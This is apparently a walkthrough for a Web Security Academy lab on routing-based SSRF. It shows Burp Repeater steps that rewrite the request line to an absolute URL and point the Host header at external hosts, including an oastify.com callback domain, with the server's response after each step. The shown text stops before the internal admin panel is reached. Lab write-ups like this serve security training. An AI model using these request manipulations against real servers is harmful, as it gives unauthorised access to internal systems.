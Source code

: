 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606003458.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606003929.png)

### SSRF via flawed request parsing
```bash

# This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

# To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos. 

Refresh the page
Go to HTTP: history
Find:

GET / HTTP/1.1

Send to repeater

Change:

GET / HTTP/1.1

To

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1

Response:

HTTP/1.1 200 OK

Change:

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1
Host: 0a3e00f104df64eec04e156b0099008d.web-security-academy.net

To

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1
Host: check.com

Response:

HTTP/1.1 504 Gateway Timeout

Server Error: Gateway Timeout (3) connecting to check.com

Change:

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1
Host: check.com

To

GET https://0a3e00f104df64eec04e156b0099008d.web-security-academy.net/ HTTP/1.1
Host: 5agav5afksow19o3qzpk8p6h288ywn.oastify.com

Response:

HTTP/1.1 200 OK
```
